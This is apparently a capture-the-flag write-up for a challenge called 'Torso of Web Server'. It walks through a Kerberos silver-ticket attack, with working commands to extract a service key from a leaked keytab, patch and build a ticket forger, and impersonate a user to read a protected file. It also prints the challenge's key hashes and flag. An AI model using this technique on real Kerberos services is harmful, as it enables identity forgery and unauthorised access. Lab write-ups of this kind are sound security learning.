


# Torso of Web Server

Hi Expert,

some remains of a web server were found on `http://78.128.246.143`. Maybe the administrators didn't finish it, maybe it just started to fall apart without maintenance, but it certainly contains interesting information that needs to be obtained.

Good Luck!

---

There are 4 files at http://78.128.246.143:
- [apache2.conf](apache2.conf)
- [apache2.keytab](apache2.keytab)
- `flag.txt` - requires authentication
- [ticketer_mit.c](ticketer_mit.c)

At this point, I was really lost and had to study a lot:
- [Kerberos Authentication Explained | A deep dive](https://www.youtube.com/watch?v=5N242XcKAsM)
- [HackTricks: Kerberos Authentication](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberos-authentication)
- [HackTricks: Silver Ticket](https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket)
- [Kerberos SSO with Apache on Linux](https://active-directory-wp.com/docs/Networking/Single_Sign_On/Kerberos_SSO_with_Apache_on_Linux.html?utm_source=pocket_mylist)
- [Ticket management](https://web.mit.edu/kerberos/krb5-1.12/doc/user/tkt_mgmt.html)
- [Use a keytab](https://kb.iu.edu/d/aumh)

## The Big picture

The ultimate goal is accessing `http://78.128.246.143/flag.txt`. However, access is allowed to
`euripides@SUPERCLIENT.TCC` only. The plan is to _impersonate_ this user by forging a _service ticket_ (technique known as
_silver ticket_).

1) Authenticate with a known user/service (using `apache2.keytab`) to obtain _ticket granting ticket_ (TGT).
2) Call the protected resource (`/flag.txt`). Failure is expected at this point.
The main goal is getting a _service ticket_ (ST).
3) Forge the service ticket using `ticketer_mit.c` (we just need to change the client to `euripides`).
4) Use the forged ticket to get the flag.

_Warning: This might not be the most straightforward path .._

## 1) Authenticate with known user

1. Install `krb5-user` package
2. Configure `/etc/krb5.conf`:
   ```
   [libdefaults]
        default_realm = SUPERCLIENT.TCC
   ..
   [realms]
        SUPERCLIENT.TCC = {
                kdc = 78.128.246.143
                admin_server = 78.128.246.143
        }
   ```
3. Inspect `apache2.keytab`:
   ```
   $ ktutil
   ktutil:  read_kt apache2.keytab
   ktutil:  list
   slot KVNO Principal
   ---- ---- ---------------------------------------------------------------------
   1    1           HTTP/ctfb4.tcc@SUPERCLIENT.TCC
   2    1           HTTP/ctfb4.tcc@SUPERCLIENT.TCC
   ```
   This tell us the principal name.
4. Authenticate the user (service):
   ```
   $ kinit HTTP/ctfb4.tcc -k -t apache2.keytab
   ```
5. Confirm we have TGT in the credentials cache file:
   ```
   $ klist                                        
   Ticket cache: FILE:/tmp/krb5cc_1000
   Default principal: HTTP/ctfb4.tcc@SUPERCLIENT.TCC
   
   Valid starting       Expires              Service principal
   
   11/02/2021 17:43:28  11/03/2021 05:43:28  krbtgt/SUPERCLIENT.TCC@SUPERCLIENT.TCC
   renew until 11/03/2021 17:43:28
   ```

## 2) Obtain service ticket

First, we need to make sure the browser is working with Kerberos.

1. Add a new record into `/etc/hosts`:
   ```
   78.128.246.143  ctfb4.tcc
   ```
   Make sure to use `ctfb4.tcc`!
2. Configure Firefox to use Kerberos. In `about:config`, set `network.negotiate-auth.trusted-uris` to `ctfb4.tcc`.

Now, you can navigate to `http://ctfb4.tcc/flag.txt`. If everything is set up correctly, you will receive a service ticket.

Verify using Wireshark:



Or using `klist`:
```
$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: HTTP/ctfb4.tcc@SUPERCLIENT.TCC

Valid starting       Expires              Service principal
11/03/2021 05:06:53  11/03/2021 17:06:53  krbtgt/SUPERCLIENT.TCC@SUPERCLIENT.TCC
        renew until 11/04/2021 05:06:52
11/03/2021 05:07:01  11/03/2021 17:06:53  HTTP/ctfb4.tcc@SUPERCLIENT.TCC
        renew until 11/04/2021 05:06:52
```

We have 2 tickets now (TGT and service ticket).


## 3) Forge service ticket

### Build ticketer

Install required libs and run `gcc`:

```
$ sudo apt install libkrb5-dev comerr-dev
$ gcc -g -o ticketer ticketer_mit.c -lkrb5 -lk5crypto
$ file ticketer
ticketer: ELF 64-bit LSB shared object, x86-64
```

`ticketer` requires 2 arguments:
- **service key** - we can extract it from `apache2.keytab`
- **new principal name** - this is `euripides@SUPERCLIENT.TCC`

### Extract service key

I used [KeyTabExtract](https://github.com/sosdave/KeyTabExtract):
```
$ ./keytabextract.py apache2.keytab
[!] No RC4-HMAC located. Unable to extract NTLM hashes.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
REALM : SUPERCLIENT.TCC
SERVICE PRINCIPAL : HTTP/ctfb4.tcc
AES-256 HASH : 16049ef7a077513c1ae0f2e69a1d6c3aff607956c1ff7fff1a092823431da235
AES-128 HASH : 3746ead7ac5622b631b397f3e949da14
```

The service key is `16049ef7a077513c1ae0f2e69a1d6c3aff607956c1ff7fff1a092823431da235`.

### Patch ticketer

Apparently, I didn't take the expected approach. `ticketer` expects only 1 ticket in the cache (and we have 2).
To make it work, I had to change the source code a bit:
```
// get credential, expects only one "service for service" credential to be mangled
krb5_cc_start_seq_get(context, cache, &cur);

krb5_cc_next_cred(context, cache, &cur, out_creds);
krb5_cc_next_cred(context, cache, &cur, out_creds);
krb5_cc_next_cred(context, cache, &cur, out_creds);
krb5_cc_next_cred(context, cache, &cur, out_creds);

krb5_cc_end_seq_get(context, cache, &cur);
krb5_cc_close(context, cache);
```

I have no idea why 4 is the magic number here... `gdb` is your friend in such cases.

**Do not forget to rebuild!**

Finally, we can forge the ticket:
```
./ticketer 16049ef7a077513c1ae0f2e69a1d6c3aff607956c1ff7fff1a092823431da235 euripides@SUPERCLIENT.TCC
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: HTTP/ctfb4.tcc@SUPERCLIENT.TCC

creds session key:
87 0D ED 5B CA 7A 10 21  77 D2 71 E5 BD 3B FE 53  |  ...[.z.!w.q..;.S
16 71 72 0F DD 26 7E 14  EB 6F B4 42 45 55 52 B3  |  .qr..&~..o.BEUR.
decrypted ticket session key:
87 0D ED 5B CA 7A 10 21  77 D2 71 E5 BD 3B FE 53  |  ...[.z.!w.q..;.S
16 71 72 0F DD 26 7E 14  EB 6F B4 42 45 55 52 B3  |  .qr..&~..o.BEUR.
new cache name: /tmp/tktY3TTbe
```

New ticket is saved to `/tmp/tktY3TTbe`.

## 4) Grab the flag

Swap the caches:
```
$ mv /tmp/tktY3TTbe /tmp/krb5cc_1000
```

Go to `http://ctfb4.tcc/flag.txt`:



The flag is `FLAG{RhXd-vITI-vpXG-zQ3d}`